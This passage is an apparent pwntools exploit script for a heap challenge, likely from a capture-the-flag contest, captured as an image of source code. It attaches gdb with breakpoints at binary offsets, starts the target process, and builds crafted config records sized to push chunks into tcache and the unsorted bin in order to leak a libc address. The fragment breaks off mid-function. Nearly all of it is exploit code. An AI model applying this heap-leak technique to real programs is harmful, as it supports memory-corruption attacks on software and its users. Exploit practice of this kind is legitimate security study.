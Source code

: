 ```python
        for i in range(1,2):
            b_string += f"c\n"
        #b_string += f"tel rbp\n"
    else:
        for i in b_slice:
            b_string += f"b *{hex(i)}\n"
        for i in range(1,2):
            b_string += f"c\n"            
    if is_start :
        ph = gdb.debug(filename,b_string)
        return
    else:
        gdb.attach(ph,b_string)
        pause()
b_examp=0x03C38 
b_show = 0x003A58 
b_add= 0x3C15
b_free = 0x3C58
b_slice = [
    b_examp
]

ph = process(file_name)
debug(b_slice = b_slice,is_pie=1,is_start=1) 
 
def new_cfg(op, name, content, updated):
    normal_cfg = b''
    normal_cfg += p32(op)
    normal_cfg += p32(len(name))
    normal_cfg += name
    # content
    normal_cfg += p32(len(content))
    normal_cfg += content
    normal_cfg += p8(updated)

    return normal_cfg

def config_leak_libc_unsorted():

    configs = []

    name = b'A'*0x30
    content = b'a'*0x30
    configs.append(new_cfg(1, name, content, 0))
  
    name = b'B'*0x30
    content = b'B'*0x30
    configs.append(new_cfg(1, name, content, 0))

    name = b'C' * 0x30 #tcahe
    content = b'C' * 0x420 #unsorted
    configs.append(new_cfg(1, name, content, 1))


    name = b'D' * 0x30
    content = b'D' * 0x420 
    configs.append(new_cfg(1, name, content, 0))

    name = b'E' * 0x30
    content = name 
    configs.append(new_cfg(1, name, content, 0))


```
